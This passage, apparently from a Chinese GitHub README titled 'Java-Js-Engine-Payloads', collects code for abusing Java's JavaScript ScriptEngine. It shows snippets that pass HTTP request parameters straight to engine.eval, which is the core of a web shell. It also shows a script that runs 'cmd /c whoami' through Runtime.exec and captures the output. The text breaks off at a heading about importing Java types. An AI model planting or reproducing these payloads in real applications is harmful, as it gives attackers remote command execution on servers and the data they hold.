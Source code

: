 # Java-Js-Engine-Payloads



## 基本语法

### 获取脚本引擎

```
//通过脚本名称获取：
ScriptEngine engine = new ScriptEngineManager().getEngineByName("JavaScript");  //简写为js也可以
//通过文件扩展名获取： 
ScriptEngine engine = new ScriptEngineManager().getEngineByExtension("js");  
//通过MIME类型来获取： 
ScriptEngine engine = new ScriptEngineManager().getEngineByMimeType("text/javascript");
```



### 绑定对象

```
ScriptEngine engine = new ScriptEngineManager().getEngineByName("js");
engine.put("request", request);
engine.put("response", response);
engine.eval(request.getParameter("mr6"));
```


或者通过eval的重载函数，直接把对象通过一个HashMap放进去

```
new javax.script.ScriptEngineManager().getEngineByName("js").eval(request.getParameter("ant"), new javax.script.SimpleBindings(new java.util.HashMap() {{
put("response", response);
put("request", request);
}}))
```

### 调用Java方法
前面加上全限定类名即可

```
var s = [3];
s[0] = "cmd";
s[1] = "/c";
s[2] = "whoami";//yzddmr6
var p = java.lang.Runtime.getRuntime().exec(s);
var sc = new java.util.Scanner(p.getInputStream(),"GBK").useDelimiter("\\A");
var result = sc.hasNext() ? sc.next() : "";
sc.close();
```
### 导入Java类型
